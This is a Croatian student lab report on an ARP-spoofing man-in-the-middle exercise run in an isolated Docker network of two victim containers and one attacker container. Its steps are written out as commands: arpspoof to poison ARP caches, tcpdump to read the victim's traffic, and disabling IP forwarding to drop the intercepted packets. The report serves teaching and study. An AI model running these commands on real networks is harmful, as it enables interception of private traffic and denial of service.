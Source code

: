 # Izvještaj prve laboratorijske vježbe

### **Zadatak**

Realizirati *man in the middle* napad iskorištavanjem ranjivosti ARP protokola. Student će testirati napad u virtualiziranoj [Docker](https://docs.docker.com/get-started/overview/) mreži ([Docker container networking](https://docs.docker.com/network/)) koju čine 3 virtualizirana Docker računala (eng. *container*): dvije *žrtve* `station-1` i `station-2` te napadač `evil-station`.

### **Alati**

**Lista pokrenutih kontejnera**

```bash
$ docker ps
```

```
CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
7142ae607cb3   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-2
c810f9effdb1   srp/arp   "bash"    4 minutes ago   Up 4 minutes             evil-station
cec29037dbe5   srp/arp   "bash"    4 minutes ago   Up 4 minutes             station-1
---------------------------------------------------------------------------------------
```

**Pokretanje interaktivnog shella**

```bash
$ docker exec -it evil-station bash
```

**Na kontejneru pomoću netceta otvaramo server TCP socket na portu 8080**

```bash
$ netcat -l -p 8080
```

**Dohvaćenje konfiguracije mrežnog interfejsa**

```bash
$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.4  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:ac:12:00:04  txqueuelen 0  (Ethernet)
        RX packets 68  bytes 8291 (8.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

**Pokrećemo arpspoof**

```bash
$ arpspoof -i eth0 -t station-1 station-2
```

**Pokrećemo tcpdump u kontejneru `evil-station` i pratimo promet**

```bash
$ tcpdump -X host station-1 and not arp
```

**Gasimo prosljeđivanje spoofanih paketa**

```bash
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```